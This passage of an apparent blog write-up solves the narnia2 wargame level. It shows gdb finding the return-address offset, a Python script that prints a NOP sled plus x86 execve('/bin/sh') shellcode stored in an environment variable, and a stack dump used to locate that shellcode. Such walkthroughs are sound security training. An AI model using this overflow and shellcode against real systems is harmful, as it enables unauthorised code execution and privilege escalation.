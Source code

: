 {% highlight bash %}
narnia2@melinda:/narnia$ gdb ./narnia2 
GNU gdb (Ubuntu 7.7.1-0ubuntu5~14.04.2) 7.7.1
Copyright (C) 2014 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from ./narnia2...(no debugging symbols found)...done.
(gdb) r `python -c 'print "A"*140+"BBBB"'`
Starting program: /games/narnia/narnia2 `python -c 'print "A"*140+"BBBB"'`

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
{% endhighlight %}

Great, looks like we can set `eip` after 140 bytes. Now we need somewhere to
store our shellcode. We might as well just use the same egg as the last level
and store it in an environment variable but we'll need to find it on the stack.
To give us some wiggle room, let's also add a sizable `nop` sled to the
beginning of our shellcode. My `egg.py` now looks like this:

{% highlight python %}
print '\x90'*2000+'h\x01\x01\x01\x01\x814$ri\x01\x011\xd2Rj\x04Z\x01\xe2R\x89\xe2jhh///sh/binj\x0bX\x89\xe3\x89\xd1\x99\xcd\x80'
{% endhighlight %}

We can find our shellcode using `gdb` by reading memory on the stack as strings
(I used a command like `x/500s $sp`) and scrolling until we start to see
environment variables and a ton of `nop`s.

{% highlight bash %}
0xffffd0a4:     ""
0xffffd0a5:     ""
0xffffd0a6:     "/games/narnia/narnia2"
0xffffd0bc:     "XDG_SESSION_ID=250067"
---Type <return> to continue, or q <return> to quit---
0xffffd0d2:     "SHELL=/bin/bash"
0xffffd0e2:     "TERM=screen"
0xffffd0ee:     "SSH_CLIENT=50.169.192.125 54062 22"
0xffffd111:     "SSH_TTY=/dev/pts/94"
0xffffd125:     "LC_ALL=C"
0xffffd12e:     "EGG=", '\220' <repeats 196 times>...
0xffffd1f6:     '\220' <repeats 200 times>...
0xffffd2be:     '\220' <repeats 200 times>...
0xffffd386:     '\220' <repeats 200 times>...
0xffffd44e:     '\220' <repeats 200 times>...
0xffffd516:     '\220' <repeats 200 times>...
0xffffd5de:     '\220' <repeats 200 times>...
0xffffd6a6:     '\220' <repeats 200 times>...
0xffffd76e:     '\220' <repeats 200 times>...
0xffffd836:     '\220' <repeats 200 times>...
0xffffd8fe:     "\220\220\220\220h\001\001\001\001\201\064$ri\001\001\061\322Rj\004Z\001\342R\211\342jhh///sh/binj\vX\211\343\211\321\231\315\200"
0xffffd930:     "USER=narnia2"
{% endhighlight %}
